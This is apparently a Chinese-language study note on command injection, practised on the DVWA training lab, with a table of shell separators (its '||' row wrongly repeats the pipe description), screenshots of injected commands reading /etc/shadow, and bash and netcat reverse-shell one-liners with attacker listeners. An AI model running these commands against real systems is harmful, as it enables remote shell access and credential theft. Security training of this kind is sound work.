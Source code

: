    ![](https://i.imgur.com/nwWHDyM.png)

<br>

## Command Injection
因為沒有針對用戶輸入進行過濾，因此會造成機敏資料外洩、等問題
Linux command


| Column 1 | Column 2 | 
| -------- | -------- | 
| ; or &     | 不管第一次執行的指令是否成功皆會執行第二個     | 
| &&     | 第一個指令失敗不會執行下一個     | 
|  I(槓槓符號)    | 會把前一個指令的輸出當作下一個指令的輸入     |
|  II(槓槓符號)    | 會把前一個指令的輸出當作下一個指令的輸入     |


---

## DVWA
1.Enter IP to get shell

![](https://i.imgur.com/GZG7eOA.png)
可使用command加入一些linux指令
![](https://i.imgur.com/FI8yUNJ.png)

![](https://i.imgur.com/33iCHlV.png)
cat去撈 /etc/shadow
![](https://i.imgur.com/zthZGDt.png)
ls -al 查看檔案權限
![](https://i.imgur.com/Fl5HR9S.png)

ls -al | grep shadow
linux
/etc/passwd linux以前會把所有帳密放在裡面
/etc/shadow 現在linux會將它分開

#### *Reverse shell*
受害者的機器自行連回攻擊者的機器(出來比進去簡單)

**Bash**
- Victim: bash -i >& /dev/tcp/ip/port 0>&1
- Attacker:nc -nvlp port

**Netcat**
- Victim:nc ip port -e /bin/bash
- Attacker:nc -nvlp port
